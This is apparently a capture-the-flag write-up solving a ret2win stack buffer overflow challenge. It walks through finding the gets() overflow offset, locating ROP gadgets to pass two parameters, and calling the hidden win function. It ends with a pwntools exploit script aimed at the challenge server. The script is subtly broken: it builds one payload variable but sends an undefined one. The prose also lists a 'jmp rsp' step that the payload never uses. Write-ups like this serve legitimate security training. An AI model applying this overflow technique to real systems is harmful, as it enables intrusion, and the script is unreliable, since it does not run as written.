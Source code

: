 
----------------------------------------
# 0〤丩ᐯ㇌尺𝓝丩㇄|$

------------------------------------------------------------------------------


# Challenge Description:
------------------------------------------------------------------------------
Are you looking for an exploit dev job. Well apply to the Republic of Potatoes. We are looking for the best hackers out there. Download the binary, find the secret door and remember to pass the right password.

# Overview:
------------------------------------------------------------------------------
## File checks:

Running basic file checks on the binary:

![[Images/ret2win2.png]]

We can see that the file is a ==non-stripped== 64-bit executable, with minimal protections, meaning it's a no-holds-barred challenge.

## Testing binary:

![[Images/ret2win1.png]]

When running the binary we can see that it asks us for input, and tells us to get to the secret function so it's a basic ret2win challenge.

## Reversing the binary:

------------------------------------------------------------------------------
### main()
when opening the binary up when ghidra, we can start by looking at the main function, here is the decompiled version of it:

![[Images/main.png]]


We can see that the application is very basic, it puts text on the screen and runs the user_input function, which the decompilation of is as follows:
### user_input()

![[Images/user_input.png]]

Now it's obvious what we're going to do, the application sets a buffer of 32 bytes, and uses the ==gets== function, which is a very dangerous function, because gets doesn't know how big the buffer is, so it continues reading until it finds a newline or encounters EOF, and may overflow the bounds of the buffer it was given.


### Win()
and finally, the win function (or supersecrettoplevelfunction) as they're calling it:

![[Images/win.png]]

The function checks for some parameters, which we can check the value of by right clicking on them, here is the value of the parameters:

![[Images/params.png]]

![[Images/param2.png]]


we can make out the parameters to be __cafebabe & c0debabe__

and finally we can construct our plan of attack.


# Plan of attack:
------------------------------------------------------------------------------

1. We will have to find the offset of the RIP
3. After that we have to pop some values off the stack to pass our parameters as per the [x64 calling conventions](https://learn.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170)
4. We will then pass our parameters
5. Pass in our win_function address
6. And finally, we will wait for the magic to happen!


# Exploitation:
------------------------------------------------------------------------------

## Debugging with GDB-GEF:

First we generate a cyclic pattern using `pattern create <length>` inside of GEF, copying the value, pressing `r` and pasting it when the application prompts us.

![[Images/gef.png]]


Looking at the result, we can see that the RIP didn't get overwritten as it would've if we were in a 32-bit application, and the application hit a Segmentation Fault when trying to return, we can also take note of where our cyclic pattern is, and currently it's in the $rsp register, meaning we have control over that. As to why our pattern didn't overwrite the RIP? I'll let you do this research on your own, but all the explanation can be found [here](https://coldfusionx.github.io/posts/ret2basic/)

So, after that we can find the offset by running `pattern search $rsp`, and getting the little-endian value of that. 

![[Images/search.png]]


Read more about Endiannes [here](https://en.wikipedia.org/wiki/Endianness)

Alright, everything should be set from now, we send a payload that consists of the following:

our padding+a valid memory address of a jmp rsp instruction+pop rdi+param1+pop rsi+param2

So let's start:

## Finding ROP gadgets:

To find the valid instructions we need, we'll need to use ropper or ROPGadget from pwntools, but I prefer ropper.

First, we'll need a pop rdi instruction and we can find it using the following command:

![[Images/pop_rdi.png]]

And then a pop rsi:

![[Images/pop_rsi.png]]

But wait... there's no pop rsi, only pop rsi; pop r15?

That's no problem at all, we'll just have to modify our payload to be the `pop rsi; pop r15; ret` address, and pass in two parameters instead of one, the first parameter will be put into rsi and the second -which can be any junk- will be put into the r15 register.

## Finding the win function address:

And finally, using `readelf`, we can find the address of the win function which we will pass.

![[Images/readelf.png]]


And now that we have everything we need, the final form of the payload will be: 
Padding + pop rdi+param1+pop rsi;r15+param2+junk_param+win_address


# The script:
------------------------------------------------------------------------------

```python


from pwn import *
elf=ELF('./ret2win')
session= remote('ret2win.challenges.ctf.ritsec.club', 1337)
win_function=p64(elf.symbols['supersecrettoplevelfunction'])
pop_rdi=p64(0x00000000004012b3)
param1=p64(0xcafebabe)
pop_rsi=p64(0x00000000004012b1)
param2=p64(0xc0debabe)
junk=p64(0x00)

padding=b'A'*40

joined_payload=padding+pop_rdi+param1+pop_rsi+param2+junk+win_function

print(stringpayload)
with open('payload','wb') as test:  # FOR DEBUGGING PURPOSES ONLY
	test.write(stringpayload)
#p = elf.process()                  # FOR DEBUGGING PURPOSES ONLY
# gdb.attach(p,"""
# 	b main
# 	r < payload
# 	c""")
session.sendline(stringpayload)
session.interactive()


```

------------------------------------------------------------------------------
